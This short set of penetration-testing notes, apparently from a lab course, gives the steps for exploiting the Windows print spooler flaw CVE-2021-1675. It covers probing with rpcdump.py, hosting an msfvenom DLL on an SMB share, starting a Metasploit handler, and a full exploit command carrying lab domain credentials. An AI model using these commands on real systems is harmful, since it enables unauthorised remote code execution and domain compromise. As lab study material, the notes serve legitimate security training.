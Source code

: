 cOnce you have gained a foothold on a victim Windows Machine, you can possibly try this technique

- First, run rpcdump.py
	- sudo rpcdump.py @IPaddr | egrep 'MS-RPRN|MS-PAR'
	- make sure to install cube0x0's impacket version
	- Create an MSF Venom DLL payload
- Second, run smbserver.py
	- From where your payload sits, run:
		- sudo smbserver.py -smb2support Comp /home/htb-student/
- Third, start a multi/handler
	- Use multi/exploit/handler 
- Fourth, run the CVE-2021-1675.py
	- From Victim, run sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 (Domain IPaddr) '\\172.16.5.225\Comp\msfvenom.dll'